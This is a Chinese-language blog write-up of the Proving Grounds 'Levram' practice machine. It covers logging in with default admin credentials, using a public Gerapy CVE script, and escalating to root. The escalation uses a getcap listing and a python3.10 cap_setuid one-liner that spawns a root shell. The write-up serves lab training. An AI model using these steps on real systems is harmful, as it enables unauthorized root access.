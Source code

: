 ```yaml
---
layout: post
title: "[PGPractice] Levram  靶機 Write-up"
date: 2024-07-11 13:08:02 +0800
categories: [offsec]
tags: [offsec]
---
```


本系列為 Proving Grounds Play Subscription 靶機

## 官方難易度 : Easy

## 社群評論難易度 : HARD

## 解題花費時間 : < 120 min

## 知識點 :

已知資訊 GERAPY

`Gerapy < 0.9.8`

### Port Scan

![](../static/img/2024-07-11/0.png)

### 8000 Port

發現 帳號與密碼 admin 可以進系統 

![](../static/img/2024-07-11/1.png)

登入後發現最下方有個版本號 0.97 搜索一下 發現有 CVE可利用 `Gerapy < 0.9.8`

![](../static/img/2024-07-11/2.png)

在項目管理中 隨便新增一個專案 即可利用 CVE腳本 `※若無專案 則會失敗`

![](../static/img/2024-07-11/3.png)

## 提權

看 log 發現有個scheduler.py的檔案

![](../static/img/2024-07-11/4.png)

![](../static/img/2024-07-11/5.png)

查看版本號 ,且有gcc 可用  `Linux ubuntu 5.15.0-73-generic`

![](../static/img/2024-07-11/6.png)

### `最後使用了很多 dirtypipe 提權都無解`

參考 Write up

## getcap -r / 2>/dev/null

/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
`/usr/bin/python3.10 cap_setuid=ep`
/usr/bin/ping cap_net_raw=ep

`/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'`